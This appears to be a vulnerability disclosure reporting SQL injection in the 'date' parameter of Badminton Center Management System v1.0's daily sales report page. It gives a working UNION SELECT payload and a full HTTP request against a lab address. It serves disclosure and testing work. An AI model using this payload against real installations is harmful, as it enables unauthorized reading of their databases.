 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Vulnerability File: /bcms/admin/?page=reports/daily_sales_report&date=

Vulnerability location: /bcms/admin/?page=reports/daily_sales_report&date=, date

[+] Payload: /bcms/admin/?page=reports/daily_sales_report&date=2022-05-27%27%20union%20select%201,2,3,4,5,database(),7--+ // Leak place ---> date


```sql
GET /bcms/admin/?page=reports/daily_sales_report&date=2022-05-27%27%20union%20select%201,2,3,4,5,database(),7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170614048-10a6e2cf-499e-4b57-a4c6-a217d701d096.png)

![image](https://user-images.githubusercontent.com/54017627/170614021-ba945075-b78a-49ea-9da5-024bb7af277a.png)
